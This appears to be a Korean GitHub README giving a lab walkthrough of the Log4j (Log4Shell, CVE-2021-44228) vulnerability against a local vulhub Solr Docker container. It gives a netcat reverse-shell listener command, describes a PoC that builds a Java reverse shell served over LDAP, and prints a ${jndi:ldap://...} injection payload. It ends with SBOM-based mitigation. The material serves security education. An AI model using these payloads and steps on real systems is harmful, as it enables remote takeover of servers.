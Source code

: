 # CVE-2021-44228

**Contributors**
<br/>
[최승용(@yyyy7246)](https://github.com/yyyy7246)

### 취약점 관련 이야기
CVE-2021-44228는 Java 기반 로깅 라이브러리인 Apache Log4j에서 발견된 제로 데이 취약점<br/>
식별되며 CVSS(Common Vulnerability Scoring System)의 심각도 점수는 10점 만점에 10점(CVSS v3.1)임<br/>
이 취약점으로 인하여 오픈소스 보안위협과 공급망 보안에 대한 관심과 중요도가 높아졌음<br/>

### 취약점 설명
Log4j는 외부에서 제공된 구성 파일을 사용하여 로그 메시지를 처리하는데, 이 구성 파일은 XML 또는 프로퍼티 형식으로 작성됨.</br></br>

이 취약점은 Log4j가 구성 파일을 로드할 때 JNDI(Java Naming and Directory Interface) 기능을 사용하는데 이 과정에서 발생함. 공격자는 특정한 JNDI URL을 포함한 악의적인 로그 메시지를 전송하여, 애플리케이션에서 Log4j를 사용하는 경우 해당 로그 메시지를 처리하는 과정에서 원격 코드 실행이 가능해짐.</br></br>

이를 통해 공격자는 애플리케이션의 권한과 동일한 권한으로 원격에서 임의의 코드를 실행할 수 있으며 따라서 공격자는 시스템을 제어하거나 중요한 데이터에 접근할 수 있음</br></br>



### 환경 설정
VMworkstaion 16.1.2<br/>
kali-linux-2023.3 -amd64<br/>
<br/>
칼리 리눅스 위에 도커를 띄우고 로컬에서 poc를 실행하고 도커의 쉘을 따는 것을 목표로 함.
<br/>
https://drive.google.com/file/d/1q4emtQqYQDpROpmu0799lSwII1UItKcv/view?usp=drive_link<br/>
위 링크에서 다운받으면 같은 환경에서 실습할 수 있음<br/>


### POC
https://log4shell.tools/<br/>
가장 먼저 위 사이트에서 log4j 취약점이 있는지 테스트를 할 수 있음.<br/>
입력값이 log4j를 통해 기록되는 부분이 있으면 입력값으로 사이트에서 주어진 페이로드를 붙여넣으면 확인 가능함.<br/>
<br/>
이제 취약점을 확인하였고 실제 익스플로잇을 하기 위해 터미널을 3개 열어야 함.<br/>
<br/>
위 환경 기준으로<br/>
<br/>
1번 터미널을 열고 <br/>
```
nc -nvlp 9001
```
설명 : 리버스 쉘 연결을 위해서 netcat을 열었음.<br/>
<br/>
2번 터미널<br/>
```
sudo docker run --rm --network host vulhub/solr:8.11.0
```
설명 : vulhub의 도커파일을 실행.<br/>
<br/>
3번 터미널<br/>
```
cd ~/Downloads/log4j/poc
python poc.py
```
설명 : poc 코드를 실행함.(디폴트 값으로 실행되어 python poc.py --userip 192.168.0.1 --webport 8080 --lport 9002 와 같음)<br/>
<br/>
1. ```generate_payload(userip: str, lport: int) -> None : ```
입력된 IP와 포트를 이용하여 Java 페이로드를 생성. 생성된 페이로드는 Exploit.java라는 파일로 저장됨.
Exploit.Java은 소켓을 생성하여 지정된 IP와 포트로 연결을 요청하고, 이 연결을 통해 /bin/sh 쉘을 실행. 이렇게 하면 공격자(칼리 로컬)의 시스템이 피해자(도커 환경)의 시스템에 연결을 요청하게 되며, 이 연결이 성공하면 공격자는 피해자의 시스템에서 쉘 명령어를 실행할 수 있음.
<br/><br/>
2. ```payload(userip: str, webport: int, lport: int) -> None : ```
generate_payload 함수를 호출하여 페이로드를 생성한 후, LDAP 서버를 설정하고, 웹 서버를 실행.
이렇게 하면 피해자의 시스템이 공격자의 시스템으로 연결을 요청하게 되며, 이 연결이 성공하면 공격자는 피해자의 시스템에서 쉘 명령어를 실행할 수 있음.
<br/><br/>
3. ```check_java() -> bool : ```
Java가 설치되어 있는지 확인후 Java가 설치되어 있지 않다면 False를 반환.
<br/><br/>
4. ```ldap_server(userip: str, lport: int) -> None : ```
LDAP 서버를 설정하고, 실행. 이 서버는 Exploit.java 코드를 제공하며, 피해자의 시스템이 이 코드를 다운로드하고 실행하도록 함.
<br/><br/>


<br/>
이후 작업<br/>
firefox 실행<br/>
localhost:8000 접속해서 directory listing 하고 있는 웹 서버 잘 돌아가고 있는지 확인<br/>
localhost:8089 접속해서 Core Admin -> name에 ${jndi:ldap://localhost:1389/a} 입력하고 Add Core 클릭<br/>
1번 터미널에서 쉘 따졌는지 확인 -> whoami 실행하면 root 나와야 함<br/>

<br/><br/>
#### 실습화면
1. 페이로드 입력<br/>
![log4j_1](./images/log4j_1.png)<br/>
2. 페이로드 삽입<br/>
![log4j_2](./images/log4j_2.png)<br/>
3. 리버스 쉘 연결 확인<br/>
![log4j_3](./images/log4j_3.png)<br/>
4. 도커의 루트인지 확인 (pwd의 결과가 /opt/solr/server)<br/>
![log4j_4](./images/log4j_4.png)<br/><br/><br/>



### 대처 방법(SBOM)
패치 및 업데이트를 하는 방법, 취약한 Log4j 구성을 제거하는 등 다양한 방법이 있는데 그 전에 수 많은 모듈들 속에서 SBOM을 사용하여 빠르게 취약점이 있는지 파악하는 것을 소개함.<br/>
![sbom_1](./images/sbom_1.png)<br/>
![sbom_2](./images/sbom_2.png)<br/>

### 결론 (3줄 요약)
Log4j 취약점은 애플리케이션 보안에 심각한 위협을 가지는 취약점으로 알려짐. <br/>
해당 취약점을 악용할 경우 원격 코드 실행이 가능해지며, 이는 중요한 데이터 유출이나 시스템 침해로 이어질 수 있음. <br/>
따라서, Log4j를 사용하는 애플리케이션에서는 가능한 빠른 시일 내에 최신 버전으로 업데이트하고, 관련된 보안 패치를 적용하는 것이 필요하며 이를 통해 보다 안전한 애플리케이션 운영을 할 수 있음.
